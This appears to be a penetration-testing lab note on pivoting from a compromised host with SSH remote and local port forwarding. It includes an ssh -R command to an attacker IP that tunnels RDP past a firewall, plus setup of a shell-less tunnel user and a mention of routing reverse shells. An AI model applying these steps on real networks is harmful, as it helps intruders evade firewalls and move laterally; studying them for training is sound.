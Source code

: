			- Since we'll be making a connection back to our attacking machine, we'll create a user without access to any console for tunneling.
				- `useradd tunneluser -m -d /home/tunneluser -s /bin/true`
				- `passwd tunneluser`
			- **SSH Remote Port Forwarding**
				- Let's say the firewall policies are blocking the attacking machine from directly accessing port 3389 on the server.
				- Remote Port Forwarding allows us to take a reachable port from the SSH client (`PC-1`) and project it into a remote SSH server (attacking machine).
				- As a result, a port will be opened in the attacker machine that can be used to connect back to port 3389 in the server through the SSH tunnel.
				- `PC-1` will in turn proxy the connection so that the server will see all the traffic as if it was coming from `PC-1`.
				- ![](remote-port-fwd.png)
				- **NOTE: We need port forwarding after we have compromised PC-1 because in a situation where we only have console access to PC-1, we won't be able to use any RDP client as we don't have GUI**
				- In case we want to run an exploit against a port that can't be reached directly, as our exploit may require a specific scripting language that may not be available at machines we compromise along the way.
				- Forward port 3389 on the server back to our attacking machine using the following on `PC-1` `ssh tunneluser@<attacker-ip> -R 3389:<Server-ip>:3389 -N`.
					- `-N` to prevent the client from requesting a shell since `tunneluser` doesn't have access to one.
					- `-R` to request port forwarding.
					- The first port 3389 indicates the port we will be opening on the SSH server (attacking machine).
					- The second port 3389 indicates the port that we'll be forwarding.
					- They don't have to match.
				- Once the tunnel is set and running, go to the attacker machine and RDP into the forwarded port to reach the server `xfreerdp /v:127.0.0.1 /u:MyUser /p:MyPassword`.
			- **SSH Local Port Forwarding**
				- Allows us to pull a port from an SSH server into the SSH client.
				- This could be used to take any service available in our attacking machine and make it available through a port on `PC-1`.
				- That way any host that can't directly connect directly to the attacker's machine but can connect to `PC-1` will now be able to reach the attacker's services through the pivot host.
				- Allows us to run reverse shells from hosts from hosts that normally wouldn't connect back to us.